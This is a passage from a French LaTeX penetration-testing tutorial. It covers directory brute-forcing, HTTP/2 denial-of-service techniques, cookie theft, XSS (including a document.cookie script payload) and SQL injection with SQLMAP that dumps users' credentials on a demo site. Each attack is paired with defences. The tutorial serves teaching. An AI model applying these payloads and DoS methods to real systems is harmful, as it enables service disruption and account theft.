  
\includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/dirb1.PNG}
  \caption{Dirbuster}
  \label{fig:dirbuster}
\end{figure}

L’utilisation de Dirb et Dirbuster est fondamentalement la même, mais ils ont chacun leurs avantages. 

Tout d’abord pour la question de rapidité, Dirb est en single-threading alors que Dirbuster est en multi-threading. \\
La différence entre single et multi est qu’en single, on ne peut exécuter les tâches qu’une par une de la manière suivante : 
\begin{center}
   \begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.25\textwidth]{oui/Ancien/imangeancien/dirb3.PNG}
  \caption{Single-threading}
  \label{fig:courbe-tikz}
\end{figure} 
\end{center}

 Alors que le multi-threading, lui, permet de faire plusieurs tâches en même temps en ordonnant les tâches en plusieurs threads, de la manière suivante : 
\begin{center}
    \textbf{Thread1}:\\
       \begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.25\textwidth]{oui/Ancien/imangeancien/dirb4.PNG}
  \label{fig:courbe-tikz}
\end{figure}
\textbf{Thread2}:\\
       \begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.25\textwidth]{oui/Ancien/imangeancien/dirb5.PNG}
  \label{fig:courbe-tikz}
\end{figure}

\textbf{Thread3}:\\
       \begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.25\textwidth]{oui/Ancien/imangeancien/dirb6.PNG}
  \caption{Multi-threading}
  \label{fig:courbe-tikz}
\end{figure}
\end{center}
Il faut noter que la différence ne se voit qu’avec des processeurs multi-coeurs, qui peuvent faire plusieurs tâches à la fois. \\
Donc pour la rapidité d’exécution, si nous avons un bon processeur, Dirbuster surpasse largement Dirb.
Seulement, Dirbuster demande toujours une interaction graphique, alors que Dirb, étant une CLI (Command Line Interface), permet l’automatisation, donc on perd certes du temps sur l’exécution des tâches mais on gagne du temps sur le reste.\\
Certes, Dirb vous fournira les fichiers tel que robots.txt mais ne fournira pas le code source des pages. N'hésitez pas à les observer car elles contiennent beaucoup d'informations. 


\part{Troisième partie}

\chapterimage{oui/images/illustrations/chap_flagsa.jpg}
\chapter{L'exploitation des informations via des failles}

A la suite de la phase de récupération d'informations, nous allons chercher des failles au sein de la machine cible. Certains outils de la précédente étape ont déjà pu nous aiguiller sur le type de failles à exploiter. Nous allons donc vous expliquer dans cette partie quelles sont les principales failles de sécurités que vous pourriez rencontrer et comment les exploiter.

\section{Le déni de services}

Actuellement, le déni de services(DoS) ou  déni de service distribué (DDoS) est utilisé afin de paralyser un réseau ou un site web pour plusieurs raisons et cela peut vite coûter chère. Cependant, bloquer un service signifie mobiliser du personnel de sécurité afin de résoudre le problème et donc, réduire l'attention sur un autre service qui lui présente des failles permettant une infiltration dans le réseau. Dans ce dossier, nous allons vous parler des DOS basés sur HTTP v2.

\subsection{Failles HTTP v2}

Avant d'expliquer en quoi consiste les failles HTTP v2, nous allons comprendre le fonctionnement de ce protocole.\\
Dans l'objectif de gagner en latence et en performance, HTTP v2 a été conçu et a réussi son pari. En effet, cette nouvelle version fait en sorte de réduire le nombre d'échanges entre un client et un serveur via le multiplexage de flux. De cette manière, un simple GET suffit pour obtenir une page Web. En plus de réduire le nombre d'échanges, HTTP v2 va compresser les entêtes HTTP et envoyer des contenus non-demandés qui seront stockés dans le cache (le Push) afin que le client puisse accéder beaucoup plus rapidement aux ressources. Malheureusement, tout ceci a permis l'ouverture au DOS. Nous allons vous en présenter trois qui sont :

\begin{itemize}
    \item \textbf{Slow Read Attack}
    \item \textbf{HPACK Bomb}
    \item \textbf{Dependency Cycle Attack}
\end{itemize}

Il en existe d'autres mais ces trois là ont été présentées lors de la Black Hat de 2016 et doivent donc être connues.

\subsubsection{Slow Read Attack}

Ce type d'attaque consiste à exploiter le protocole TCP à notre envie. En effet, dans TCP, il y a une "Window" qui consiste à dire au serveur notre capacité en réception de données. Ainsi, si nous réduisons la Window à une toute petite valeur et que nous le reproduisons plusieurs fois en même temps, notre programme va finir par laisser ouvert un certain nombre de sockets et ainsi créer de la latence voire même rendre le site indisponible. Pour effectuer ce DOS, le langage de programmation SCAPY peut être utilisé afin de modifier les requêtes.

\subsubsection{HPACK Bomb}

Comme nous l'avons vu plus haut, HTTP v2 compresse les entêtes HTTP sous forme binaire dans le but de gagner en ressource. Ce système se nomme le HPACK. L'attaque HPACK Bomb a pour but d'amplifier la taille du header car elle contient un tableau de taille dynamique ! Ainsi, nous pouvons rajoutons du contenu dans cette partie dynamique pour augmenter sa taille, jusqu'à obtenir la valeur de compression de base qui est de 4KB. Ensuite, grâce au mutliplexage de requêtes on va envoyer ce header 16 mille fois qui est le nombre maximal d'envoi en mutliplexage sur HTTP2. Un calcul rapide nous annonce qu'avec un envoi, le serveur va devoir décompresser 64 MB de données. La décompression comme la compression requièrent beaucoup de ressources au niveau de la RAM. Il ne reste alors plus qu'à faire une boucle en envoyant, en même temps, la plus grosse quantité de requêtes sur ce serveur avec ce header modifié et compressé afin d'effectuer un DOS.

\subsubsection{Dependency Cycle Attack}

La nouveauté de HTTP v2 est aussi le fait que le client puisse donner une priorité et un ordre aux éléments qui vont être traités par le serveur. Ce système se nomme "dependency". Chaque ordre a donc un numéro de priorité de ressources qui est associé à un numéro de mémoire. Ainsi, si deux éléments ont le même numéro de mémoire, le processus va reprendre son exécution à partir de ce point et donc créer une boucle infinie. Il est alors tout à fait imaginable de réaliser cette attaque couplée à un HPACK Bomb pour réaliser un très gros DOS.\\

Comme vous l'aurez compris, un DOS se base sur la structure des protocoles et peut attirer très vite l'attention de la sécurité informatique ciblé. Ces failles ne sont surtout pas à négliger lors de la réalisation d'une attaque.

\newpage

\section{Cookies}

\subsection{Généralités}

Il est désormais devenu courant de se retrouver face à ce message lorsque l’on souhaite entrer dans un site Web :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/cookie/cookie1.PNG}
   \caption{Utilisation des cookies sur le site Le Parisien}
  \label{fig:courbe-tikz}
\end{figure}

Cette page nous donne des informations concernant l’utilisation des cookies par le site Web et la possibilité qui nous est permise de pouvoir paramétrer l’utilisation de ces cookies. Force est de constater que la plupart du temps les utilisateurs qui se retrouvent face à cette page ignorent la signification d’un cookie et cliquent immédiatement sur accepter sans prendre le temps de se renseigner sur ce terme. En réalité, un cookie est une donnée envoyée par un serveur Web à votre navigateur. Ces données sont envoyées lorsque vous prenez la décision de visiter un site Web par exemple et cela permet au site en question de garder en mémoire des informations concernant vos habitudes de navigation, vos pseudos, vos mots de passe, vos paniers etc. Ces cookies sont stockés sur votre disque dur en tant que fichier. Ce fichier ne contient que du texte et est donc en principe totalement inoffensif. Malgré cela, certains logiciels antivirus nous mettent en garde contre des cookies provenant de certains sites. En d’autres termes, lorsque vous visitez un site ayant recours à des cookies, vous envoyez des informations à ce site afin qu’il soit en mesure d’améliorer votre expérience en vous proposant des services adaptés à vos centres d'intérêt. 

\subsection{Les différents types de cookies}

En règle générale, les cookies peuvent être soit temporaires, soit permanents. Les cookies temporaires sont désignés sous le terme de cookies de sessions et sont utilisés uniquement dans une session. Ces cookies sont supprimés lorsque l’on ferme notre navigateur. Les cookies permanents quant à eux sont utilisés dans différentes sessions de navigation et ils ne disparaissent que lorsque l’on décide de les supprimer ou bien lorsque leur dates d’expirations arrivent à terme. Parmi ces différents types de cookies, il existe les cookies dits internes et les cookies tiers. Les cookies internes sont mis en place par le site que vous consultez. Les cookies tiers quant à eux sont créés par un site différent de celui que vous consultez. Par exemple, de nombreux sites ont un bouton “J’aime” sur lequel on peut cliquer dessus. En cliquant sur ce bouton, un cookie pouvant être utilisé par Facebook s’activera.

\subsection{Mise en place d’un cookie}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/cookie/cookie2.PNG}
   \caption{Transfert des cookies du navigateur au seveur}
  \label{fig:courbe-tikz}
\end{figure}

1. Le protocole HTTP permet de transférer des pages Web. A l’aide d’une requête HTTP, le navigateur appelle une page provenant du serveur Web.
Pour parvenir à la page www.velizy.fr/index.html, le navigateur se connecte au serveur www.velizy.fr en envoyant la requête suivante:
GET /index.html HTTP/1.0
Host: www.velizy.fr

2. Le serveur répond en transmettant au navigateur une réponse HTTP.
Cette réponse permet de demander au navigateur de conserver des cookies.
Afin de stocker un cookie, le serveur va ajouter dans la réponse HTTP une ligne Set-cookie. Cette ligne est en réalité une requête qui a pour but de demander au navigateur de stocker la chaîne nom=valeur.

3. Cette chaîne sera par la suite renvoyée dans toutes les prochaines requêtes envoyées au serveur s'il y a existence du cookie.
HTTP/1.0 200 OK
Content-type: text/html
Set-cookie: nom=valeur

\subsection{Durée de vie des cookies}

En théorie, tous les cookies ont un nom et une date d’expiration. 
Lorsque le site Web que vous consultez envoie un cookie, il prend l’initiative de demander à votre navigateur de stocker le cookie en question jusqu’à la date et l’heure inscrits dans le fichier texte. Il existe une loi dans laquelle il est stipulé que les cookies doivent être supprimés au moins une année après leur création. Malgré cela, certains cookies sont conservés bien plus longtemps. Pour l’anecdote, il est à savoir que des cookies ont été créés dans l’optique de durer 7000 ans.

\subsection{Interception des cookies}

Comme nous l’avons dit précédemment les cookies sont des données envoyées par un serveur web au navigateur de notre ordinateur. Or, les cookies peuvent contenir des informations que l’on qualifie de sensibles (pseudo, mot de passe). Par conséquent, il serait fort regrettable que quiconque puisse intercepter ces données.
Malheureusement, certaines méthodes permettent d’intercepter les cookies et nous allons ici en lister quelques unes.
La première méthode que nous allons expliquer se prénomme détournement de session. Cette attaque est essentiellement réalisée dans des lieux publics contenant des espaces WIFI non chiffré. Elle consiste en la lecture des communications d’autres utilisateurs sur le réseau en ayant recours à des "renifleurs de paquets". Cette lecture n’est possible que lorsque le trafic réseau n’est pas chiffré. En d’autres termes, pour éviter cette attaque, il suffit de chiffrer la connexion entre le serveur Web et l’ordinateur de l’utilisateur. Pour cela, on peut utiliser par exemple le protocole HTTPS.
La seconde méthode permettant d'intercepter des cookies est l’écriture de script directement dans les sites. Ces scripts ont pour but de demander au navigateur d’envoyer les cookies à des serveurs malveillants. Cette attaque est utilisée sur les sites qui permettent aux utilisateurs de publier du contenu HTML. Pour ce qui est de ce type d’attaque, chiffrer les cookies avant leur envoi sur le réseau n’a pas de grande utilité. En revanche afin de rendre inaccessible un cookie depuis l’exécution d’un script, il est possible d’utiliser le drapeau HttpOnly qui est une option introduite en 2002 sur le navigateur internet explorer.

\subsection{Protection contre le vol de cookie}

Le client d’un site Web n’a pas en sa possession de nombreux moyens permettant d’éviter qu’on intercepte ses cookies. En effet, il ne peut que prendre la décision de désactiver les cookies. Malheureusement, de nombreux sites Web ont recours à des cookies pour fonctionner convenablement.

Par conséquent, la sécurisation du vol de cookies est essentiellement à la charge du créateur du site Web. Il doit prendre en compte de nombreux détails afin de sécuriser au mieux son site et donc ses clients. Pour cela, le créateur du site Web doit éviter de stocker les données en lien avec l’authentification (pseudo ,mot de passe) en clair, mettre en place des identifiants de session aléatoires lors de chaque requête HTTP, effacer les cookies après leur utilisation. Il doit aussi chiffrer totalement, où au moins partiellement les cookies et surtout avoir recours à des protocoles sécurisés comme HTTPS.

\newpage

\section{Failles XSS (Cross-site scripting)}

Une faille XSS est une faille présente sur un site web qui permet l'exécution de code HTML ou JavaScript dans des variables mal protégées. Il ne faut pas confondre les failles XSS avec les failles SQL. En effet, la faille XSS s'exécute côté client sur le navigateur et non pas côté serveur sur une base de données par exemple.\\

\noindent Il existe deux types de failles XSS:

\begin{itemize}
    \item \textbf{Failles XSS réfléchies (non permanentes)}
    \item \textbf{Failles XSS stockées (permanentes)}
\end{itemize}

\noindent Nous verrons au cours de cette section ces deux types de failles, la structure d'une faille XSS ainsi que son utilisation par un pirate.

\subsection{XSS Reflected (réfléchies) }

La faille XSS non permanente est la faille la plus utilisée et sûrement la plus facile à pratiquer. En effet, l’attaquant n'a qu’à injecter du code dans l’input d’un formulaire et le faire apparaître à l’écran. Cette attaque ne nécessite donc en aucun cas un stockage contrairement au XSS stocké qui est présenté ci-dessous. Cette faille peut par exemple être présente lors de l'intervention d'un champ "rechercher" sur un site:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.6\textwidth]{oui/images/xss/xss.PNG}
  \caption{Code HTML recherche}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/images/xss/xss2.PNG}
  \caption{Code PHP recherche}
  \label{fig:courbe-tikz}
\end{figure}

En regardant le code PHP, on peut s'apercevoir qu'il n'y a aucune vérification sur le paramètre \textbf{\$\_GET}. Cela veut dire que nous pouvons insérer n'importe quel code lors de la requête:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/images/xss/xss4.PNG}
  \caption{Ajout code javascript}
  \label{fig:courbe-tikz}
\end{figure}

On constate à travers cette capture que notre script JS est passé en paramètre. On obtient donc la pop-up suvivante sur notre navigateur:\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.3\textwidth]{oui/images/xss/xss3.PNG}
  \caption{Pop-up JS}
  \label{fig:courbe-tikz}
\end{figure}

Contrairement à ce que nous pourrions penser, le fait que la charge utile soit exécutée côté client est bel et bien un risque pour l’utilisateur. En effet, le client possède plusieurs informations secrètes et utiles pour l’attaquant, il a également des extensions dans son navigateur qui peuvent avoir des vulnérabilités.

Jusque-là, nous avons seulement affiché une pop-up dans la navigateur de la victime, mais nous allons aller un peu plus loin et voler les cookies de l’utilisateur sur le site vulnérable. Pour cela, nous utiliserons la propriété cookie du document (sous réserve que les cookies ne soient pas protégés):

\begin{center}
    \textbf{document.cookie}
\end{center}

\noindent En effet, si on exécute le code \lstinline{<script>alert(document.cookie);</script>} dans la barre de recherche du site on obtient la chose suivante:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/images/xss/xss5.PNG}
  \caption{Récupération du cookie utilisateur}
  \label{fig:courbe-tikz}
\end{figure}

On récupère bien le cookie de l'utilisateur avec qui on est connecté. On pourrait donc imaginer une attaque par le biais de cette faille: 


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.75\textwidth]{oui/images/xss/Untitled Diagram(3).png}
  \caption{Attaque par vol de cookies}
  \label{fig:courbe-tikz}
\end{figure}

\newpage

\subsection{XSS Permanente}

Ce type de vulnérabilité se produit lorsque les données fournis par un utilisateur sont stockées sur un serveur (fichier, base de données...) afin d’être par la suite affichées à chaque ouverture du site. Nous pouvons prendre l’exemple des forums dans lesquels un utilisateur peut par exemple injecter un script qui sera visible par tous et donc provoquer des failles chez un grand nombre d’utilisateurs. On se rend rapidement compte que cette faille est véritablement dangereuse. Grâce à celle-ci, on peut par exemple récupérer les cookies des utilisateurs ou faire exécuter du code malveillant à notre insu. On peut également récupérer les cookies de tous les utilisateurs qui consultent la page contenant le code du pirate.

\subsection{Faille DOM based XSS}

DOM est l’abréviation de Document Object Model-based. 
Ce type d’attaque a lieu directement dans le navigateur de la victime sans passer par le serveur web. La page web ne change pas, en revanche le code côté client qui est contenu dans la page s'exécute de manière inopinée, et cela est engendré par les modifications malveillantes apportées à l’environnement DOM.
Cette attaque a lieu dans la grande majorité des cas dans les nouvelles applications web car une grande quantité de code javascript est exécutée dans le navigateur de l’utilisateur.

\subsection{Détection de la présence d’une faille XSS}

Afin de détecter la présence d’une faille XSS, on peut commencer par taper dans un formulaire (commentaire, moteur de recherche, chat…) le code suivant:\\
<b>Faille</b>\\
Si le message suivant est affiché: Aucun résultat trouvé pour le terme “Faille”, c’est qu’une faille XSS est présente.\\
Si le message suivant est affiché: Aucun résultat trouvé pour le terme <b>Faille</b>, cela signifie que le site est convenablement sécurisé.\\
A la suite de la première étape décrite ci-dessus, il est possible d’utiliser un script Javascript dans un champ de formulaire afin d’être convaincu de l’existence d’une faille XSS.
On peut par exemple avoir recours au script suivant:\\
<script > alert (Attention ce site est vulnérable face aux attaques XSS) </script >\\
Afin de savoir si le site web est vulnérable aux attaques XSS, il suffit donc de taper ce script dans un formulaire, si aucun message ne s’affiche, dans ce cas vous ne risquez pas de vous retrouver face à une faille XSS sur le site en question, en revanche si le message “Attention ce site est vulnérable face aux attaques XSS” s’affiche, dans ce cas là il est préférable pour vous de changer de site.

\subsection{Se protéger d'une faille XSS}

La solution permettant de se protéger face à une attaque XSS est de convertir les données. Pour ce qui est du langage PHP, il est courant d’avoir recours aux fonctions htmlentities() et htmlspecialchars() qui permettent de convertir les caractères spéciaux en entités HTML. De ce fait, les données ne seront plus interprétées par le navigateur, mais simplement affichées.\\

\noindent \textbf{Conclusion : }\\

La faille XSS est l’une des failles qu’on retrouve le plus couramment sur le web. Cela est expliqué par le fait que cette faille permet un grand nombre d’attaques. On peut par exemple grâce à cette faille détourner un formulaire afin de rediriger l’utilisateur vers un site malveillant. Cela permet en autres de voler les cookies d’un utilisateur et donc par la même occasion d’obtenir son login et son mot de passe.
Heureusement, cette faille peut être aisément évitée en prenant la peine de traiter correctement les données en entrée.

%\newpage


\section{Failles SQL}

Le SQL est un langage de programmation orienté vers les bases de données. Ces bases de données contiennent en général des identifiants et des mots de passe qu'il faut absolument sécuriser. Lors d'une connexion via formulaire sur une page Web, l'utilisateur doit remplir les champs libres qui seront ensuite comparés aux comptes dans la base de données. Les schéma ci-dessous peut faciliter la compréhension du fonctionnement d'authentification :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/SQLi/SQLDiagram.png}
  \caption{Fonctionnement d'un formulaire}
  \label{fig:courbe-tikz}
\end{figure}

Depuis un navigateur, nous allons donc remplir le formulaire de connexion qui va être envoyé vers le serveur Web qui contient un serveur PHP. Ce dernier va traiter le code PHP pour récupérer (le plus souvent en POST) et faire une requête SQL vers la base de données afin de vérifier que les données correspondent. Si c'est le cas, le serveur PHP laisse l'utilisateur entrer sur le site.\\
Voici la structure d'une base de données :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.3\textwidth]{oui/Ancien/imangeancien/SQLi/BD.PNG}
  \caption{Exemple d'une base de données}
  \label{fig:courbe-tikz}
\end{figure}

Dans cet exemple, la base de données se nomme "Cloud" et contient plusieurs tables : "Categories", "Fichiers", "Suivi" et "Users". Ensuite, chaque table contient des colonnes qui sont ici dans la table "Users": "email", "idU", "mdp", "nom", "Statut". On comprend donc que les données de chaque utilisateurs sont stockées dans la colonne Users. Le PHP va donc essayer de faire correspondre ce qui a été rentré dans le formulaire et ce qui est présent dans cette table afin de valider ou non la connexion.\\
Une injection SQL consiste à injecter du code SQL dans une requête SQL dans le but de la détourner et donc de modifier le résultat que cette requête était censé afficher. Cela permet également d’afficher du contenu qui était en toute logique dissimulé (table des users avec les identifiant et mot de passe qui vont avec). Enfin, une insertion SQL permet d’ajouter, de supprimer ou de modifier une base de données.

\subsection{Détection faille SQL}

Les failles SQL peuvent être exploitées via l’outil SQLMAP. Ce dernier va tenter d’injecter des SELECT dans la base de données et de nous fournir un résultat. Pour mieux comprendre le concept, nous pouvons essayer SQLMAP sur des sites spécialisés en test SQL. Sur celui-ci, nous pouvons tester au niveau de l’URL si une injection est possible :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/SQLi/1.PNG}
  \caption{Détection d'une faille SQL}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir, pour tester la sécurité de la base de données aux injections SQL, il nous a juste fallu ajouter, dans l'URL, une apostrophe après le GET du site web. Ainsi, la base de données nous envoie un message d’erreur. Cette erreur nous indique que les données tapées par les utilisateurs ne sont pas vérifiées du côté serveur.

\subsection{Exploitation faille SQL}
\subsubsection{SQLMAP}

Passons maintenant à l’outil SQLMAP en rentrant la commande suivante :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/SQLi/2.PNG}
  \caption{Commande SQLMAP}
  \label{fig:courbe-tikz}
\end{figure}

L’option “-u” va nous permettre d’entrer une URL et le “--dbs” va nous permettre d’afficher les bases de données. Le résultat nous est envoyé sous cette forme :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/SQLi/3.PNG}
  \caption{Résultat}
  \label{fig:courbe-tikz}
\end{figure}

Il existe alors deux bases de données qui sont acuart et information\_schema. Etant donné que notre site cible est Acuart, nous allons visualiser ses tables :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/SQLi/4.PNG}
  \caption{Commande pour visualiser les tables}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/SQLi/5.PNG}
  \caption{Résultat}
  \label{fig:courbe-tikz}
\end{figure}

A l’intérieur de la base de données, il existe une table users que nous allons dévoiler :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/SQLi/6.PNG}
  \caption{Commande pour visualiser les colonnes}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/SQLi/7.PNG}
  \caption{Résultat}
  \label{fig:courbe-tikz}
\end{figure}

Dans notre cas, les seules informations dont nous avons besoin sont : name, pass et uname :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/SQLi/8.PNG}
  \caption{Commande pour visualiser un SELECT}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/SQLi/9.PNG}
  \caption{Résultat}
  \label{fig:courbe-tikz}
\end{figure}

\vspace{4cm}

Il existe donc un utilisateur test que nous allons essayer pour nous connecter :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.6\textwidth]{oui/Ancien/imangeancien/SQLi/11.PNG}
  \caption{Connexion}
  \label{fig:courbe-tikz}
\end{figure}

Nous avons réussi à nous connecter via une faille SQL.

\subsubsection{SQLi}
Cependant, nous aurions pu éviter de passer par SQLMAP. En effet, si nous avions voulu juste rentrer dans un site exploitable, nous aurions juste pu injecter nous-même une condition. Pour cela, nous allons nous rendre sur un site créé par l’IUT de Blagnac proposant un CTF en ligne. Nous allons donc aller dans la partie SQLi pour essayer une injection visible en \textbf{figure \ref{fig:sqli}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/SQLi/12.PNG}
  \caption{SQLi}
  \label{fig:sqli}
\end{figure}

Cette injection va nous permettre d’ajouter une condition dans la requête qui sera toujours vraie car 1 sera toujours égal à 1. On pourra alors se connecter et entrer dans le site comme on peut le voir sur la \textbf{figure \ref{fig:sqlicon}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/SQLi/13.PNG}
  \caption{Connexion}
  \label{fig:sqlicon}
\end{figure}

\newpage
\subsection{Protection faille SQL}

Bien entendu, le mot d’ordre est vigilance. Il est utile pour tout administrateur de vérifier constamment les données entrées par l’utilisateur. Les paramètres d’URL et les formulaires (connexion, recherche) sont des potentiels risques d’attaque par injection.
Grâce au langage PHP, il est maintenant possible d’avoir recours à des librairies qui auront le rôle de préparer des requêtes SQL avant leurs exécutions. Ces librairies permettent entres autres de valider les données des requêtes.
PDO est la plus connue de ces librairies. Cette fonction est directement inclue dans la classe MySQLi pour les nouvelles versions de PHP.
Il est utile de camoufler les messages d’erreurs qui peuvent s’afficher sur votre site (comme avec l’exemple de l’apostrophe dans l’URL ci-dessus) dans la mesure où ces messages permettent aux hackers d’avoir des informations sur votre base de données. 
Afin d’éviter les caractères spéciaux, il est pratique d’utiliser la fonction :\\ mysqli\_real\_escape\_string()\\
Enfin, il est préférable d’utiliser des comptes utilisateurs qui ont des droits limités. Cela permet d’empêcher l'éventuel hacker de modifier ou supprimer des éléments de la base de données.\\

\noindent \textbf{Conclusion}

Environ un site sur cinq est vulnérable aux injections SQL. Cela est dû au fait qu’une simple erreur peut compromettre la sécurité de la base, des utilisateurs et même du serveur. Pour cette raison, c’est l’une des failles les plus dangereuses pour les applications ayant recours à une base de données. Plus inquiétant encore, les injections SQL sont en augmentation depuis qu'il existe des programmes d'injections SQL automatisés, qui permettent aux hackers de prendre possession d’encore plus de données que par le passé. Heureusement, de simples techniques permettent se protéger de ce type de faille.







\newpage
\section{Failles par Proxy}

Un proxy est un élément du réseau fonctionnant au niveau de la couche 7 (application) du modèle OSI. Un proxy peut être considéré comme un intermédiaire entre deux personnes surtout quand celles-ci ne parlent pas le même langage. Cela signifie qu'un proxy va intercepter toutes les requêtes entre un serveur et un client. Nous allons dans cette partie exploiter ce concept afin d'exploiter les failles d'un formulaire et contourner des sécurités via l'outil Burpsuite.

\subsection{Burpsuite}

\subsubsection{Définition}

Burpsuite est un logiciel complet permettant d’effectuer des tests d’intrusion ou de vulnérabilités (XSS, CSRF) sur des applications Web. Cet outil peut s’utiliser comme un proxy Web dans le but de chercher  et capturer toutes les requêtes Web des utilisateurs au sein d’un LAN. Ce dernier inclut notamment des procédés automatiques dans le but de travailler plus rapidement et plus efficacement.\\
Nous allons donc voir son fonctionnement.

\subsubsection{Fonctionnement}

Burpsuite se présente sous la forme d’une interface graphique:

